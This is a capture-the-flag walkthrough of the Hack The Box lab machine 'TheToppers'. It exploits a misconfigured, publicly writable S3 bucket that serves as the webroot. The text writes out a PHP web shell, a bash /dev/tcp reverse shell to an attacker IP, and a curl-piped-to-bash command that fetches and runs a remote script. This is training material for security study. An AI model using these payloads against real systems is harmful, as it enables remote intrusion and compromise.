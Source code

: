 # ☁️ Hack The Box – TheToppers (S3-Based Exploitation)

**Machine Type**: Linux
**Solved By**: Akshat Nigam
**Category**: AWS S3 | Misconfiguration | Remote Code Execution | Web Exploitation
**Difficulty**: Easy
**Attack Surface**: Apache Web Server, S3 Bucket, PHP

---

## 🔍 1. Initial Recon

As always, I started with an Nmap scan on the IP provided:

```bash
nmap -sC -sV -p- <target-ip>
```

### 🔓 Open Ports:

* **Port 22** – SSH (OpenSSH)
* **Port 80** – HTTP (Apache Web Server)

When I visited the website hosted at `http://<target-ip>`, the footer revealed an email contact, which included the domain: **thetoppers.htb**.

I added it to my `/etc/hosts` file:

```bash
echo "<target-ip> thetoppers.htb" | sudo tee -a /etc/hosts
```

---

## 🌐 2. Enumerating Subdomains with Gobuster

I ran Gobuster to brute-force potential subdomains:

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### ✅ Found Subdomain:

```
s3.thetoppers.htb
```

---

## 💡 3. Understanding S3

**Amazon S3 (Simple Storage Service)** allows users to store and retrieve data in the cloud via "buckets". It is often used for:

* Static website hosting
* Backup and storage
* Software/media distribution

Here, the `s3.thetoppers.htb` domain appeared to be hosting an **S3-compatible bucket**.

---

## 🧰 4. Setting Up AWS CLI

To interact with this bucket, I installed the **AWS CLI**:

```bash
sudo apt install awscli
```

Then configured it (dummy values work since auth wasn't enforced):

```bash
aws configure
# Access Key ID: dummy
# Secret Access Key: dummy
# Region: us-east-1
# Output: json
```

---

## 📂 5. Bucket Enumeration

Using the AWS CLI, I listed available buckets via a **custom endpoint**:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

### 📦 Result:

```
2025-07-01 14:53:20 thetoppers.htb
```

Then I listed contents of the bucket:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

It looked like the entire **webroot** of the main website was stored here. 👀

---

## 💣 6. Uploading PHP Web Shell (RCE)

Since this bucket was writeable and linked to the live web server, I decided to upload a PHP web shell.

### 🔥 PHP RCE Payload:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### 📤 Upload to Bucket:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

I confirmed the upload by visiting:

```
http://thetoppers.htb/shell.php
```

To test it, I executed:

```
http://thetoppers.htb/shell.php?cmd=id
```

✅ Command output verified successful **Remote Code Execution**.

---

## 📞 7. Getting a Reverse Shell

### 🐚 Reverse Shell Payload:

Create a shell script on your local machine:

```bash
echo 'bash -i >& /dev/tcp/<your-ip>/1337 0>&1' > shell.sh
```

### 1. Start a Netcat Listener:

```bash
nc -nlvp 1337
```

### 2. Start a Python Web Server:

```bash
python3 -m http.server 8000
```

### 3. Trigger Reverse Shell via shell.php:

```bash
http://thetoppers.htb/shell.php?cmd=curl http://<your-ip>:8000/shell.sh | bash
```

🔥 Boom! You get a reverse shell as the web user.

---

## 🧠 How It Works:

* `shell.php` executes any command passed via the `cmd` parameter.
* You serve `shell.sh` via Python HTTP server.
* Target machine downloads the script using `curl`.
* Pipe `| bash` executes it in-memory — no disk write needed.
* Netcat receives the callback.

---

## ✅ Summary

| Step | Action                                                |
| ---- | ----------------------------------------------------- |
| 1    | Nmap scan reveals open ports (22, 80)                 |
| 2    | Subdomain `s3.thetoppers.htb` found via Gobuster      |
| 3    | AWS CLI used to interact with misconfigured bucket    |
| 4    | Upload PHP shell using `aws s3 cp`                    |
| 5    | Execute commands via `cmd` param                      |
| 6    | Serve reverse shell and catch connection using Netcat |

---

## 🚩 Outcome

* ✅ RCE via PHP shell
* ✅ Reverse shell access as web user

> 💥 A classic case of insecure AWS S3 bucket usage leading to full remote compromise.

---

🔐 Stay safe and **never leave public write access** on cloud buckets!

---
